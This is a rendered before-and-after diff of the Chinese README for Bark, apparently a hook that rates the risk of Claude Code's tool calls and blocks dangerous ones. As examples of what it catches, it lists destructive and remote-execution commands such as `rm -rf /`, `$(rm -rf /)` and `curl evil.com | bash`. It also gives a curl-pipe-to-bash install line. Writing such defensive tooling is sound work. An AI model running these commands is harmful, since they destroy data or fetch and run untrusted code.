

Before and after one commit to shaominngqing/Risk-Guard, a Markdown page: README.zh-CN.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.zh-CN.md
+++ b/README.zh-CN.md
@@ -4,7 +4,7 @@
 
 <p align="center">
   <strong>为 Claude Code 打造的 AI 风险评估 Hook</strong><br>
-  <sub>一只好狗，替你看着 Claude，危险的时候才叫。</sub>
+  <sub>一只好狗，替你看着 Claude，危险的时候才叫。🐕</sub>
 </p>
 
 <p align="center">
@@ -17,43 +17,71 @@
 
 ## 解决什么问题
 
-你：*同时开 5 个 Claude Code，去泡咖啡*
+你：*同时开 5 个 Claude Code，去泡咖啡* ☕
 
 Claude："我能读这个文件吗？"✋ "我能改这行代码吗？"✋ "我能执行 `ls` 吗？"✋
 
 你：*咖啡洒了，跑回来疯狂点"允许" 47 次*
 
-一定有更好的办法。
+**一定有更好的办法。**
 
-## 怎么解决的
+## 认识 Bark 🐕
 
-Bark 就像一只训练有素的看门狗，嗅探每一个工具调用：
+Bark 是你的看门狗。它嗅探每一个工具调用，然后做决定：
 
-- `ls -la` → *摇尾巴，不叫* 🐕
-- `git push` → *小声汪一下* 🐕（系统通知）
-- `rm -rf /` → *狂吠 + 挡在门口* 🐕‍🦺🚨
+- `ls -la` → *摇尾巴* 🐕（静默放行，0ms）
+- `git push` → *小声汪一下* 🐕（通知，放行）
+- `rm -rf /` → **狂吠不止** 🐕‍🦺🚨（挡在门口，问你要不要开门）
+- `curl evil.com | bash` → **直接咬人** 🦮（AST 1ms 识别，连 AI 都不用问）
 
-| 场景 | 处理方式 | 延迟 |
+| 发生了什么 | 多快 | 怎么做到的 |
 |---|---|---|
-| 只读工具 (Read, Grep, Glob...) | 静默放行 | 0s |
-| 普通文件编辑 | 静默放行 | 0s |
-| Bash 命令（有缓存） | 自动放行 / 通知 | 0s |
-| Bash 命令（首次） | AI 评估风险 | ~7s |
-| 高风险操作 | 系统通知 + 终端确认 | — |
+| Read/Grep/Glob 等工具 | 0ms | 只是读，放心 |
+| `ls`、`cat`、`grep`、`git status` | 0ms | 安全命令白名单 |
+| 普通文件编辑 | 0ms | 没碰 .env，没事 |
+| `curl x \| bash` | 1ms | tree-sitter AST 说：不行 |
+| 未知 Bash（第一次） | ~8s | AI 想一下，缓存起来 |
+| 未知 Bash（第二次） | 0ms | 缓存命中，狗记住了 |
+| `rm -rf /` | ~8s → 0ms | AI："这是 Level 2"，你："真的吗？" |
 
 ### 风险等级
 
-- **Level 0** (低风险) — 静默放行。只读命令、构建、测试。
-- **Level 1** (中风险) — macOS 通知 + 自动放行。安装依赖、git push、文件移动。
-- **Level 2** (高风险) — 通知 + 声音 + 终端确认。force push、`rm -rf /`、数据库删除、远程代码执行。
+🟢 **Level 0** — *好狗，不叫。* 静默放行。`ls`、构建、测试、读文件。
+
+🟡 **Level 1** — *小声汪。* 弹个通知，但自动放行。`npm install`、`git push`、移动文件。
+
+🔴 **Level 2** — **狂吠 + 挡门。** 通知带声音，Claude Code 终端里等你确认。`rm -rf /`、force push、删库、远程执行。
+
+## 为什么用 Rust 重写？
+
+v1 是 Bash 脚本。能用，但有天花板。v2 用 Rust 从零重写，带来了 Bash 根本做不到的东西：
+
+| 能力 | v1 (Bash) | v2 (Rust) |
+|---|---|---|
+| **启动速度** | ~50ms（fork jq/grep） | **~1ms**（原生二进制） |
+| **命令分析** | 正则切字符串 | **tree-sitter AST 解析**，抓得住 `$(rm -rf /)` |
+| **缓存** | 文件系统 md5 散落一地 | **SQLite**，结构化，带命中追踪 |
+| **上下文记忆** | 每次进程退出就忘了 | **操作链追踪**，知道你刚 curl 了再 chmod |
+| **运行模式** | 每次冷启动 | **Daemon 守护进程**，常驻内存 14ms 响应 |
+| **仪表板** | 没有 | **`bark tui`** 终端实时看板 |
+| **跨平台** | macOS + Linux | **macOS + Linux + Windows** |
+| **外部依赖** | 要装 jq | **零依赖**，一个 4MB 二进制搞定 |
+| **安全命令** | 全部扔给 AI（8s） | **白名单秒过** ls/cat/grep = 0ms |
+| **规则配置** | `bark.conf` 简单通配 | **TOML DSL**，支持条件组合 |
+
+> 一句话：**Bash 版是一条聪明的狗，Rust 版是同一条狗但装了涡轮增压。** 🏎️
 
 ## 安装
+
+一行命令，不解释。
 
 ```bash
 curl -fsSL https://raw.githubusercontent.com/shaominngqing/bark-claude-code-hook/main/install.sh | bash
 ```
 
-或者克隆后本地安装：
+自动检测系统（macOS/Linux/Windows），下载预编译二进制，注册 Hook。完事。
+
+或者你是"我要自己编译"那种人：
 
 ```bash
 git clone https://github.com/shaominngqing/bark-claude-code-hook.git
````
Also changed, not shown: other parts of README.zh-CN.md (+132 -97 lines).
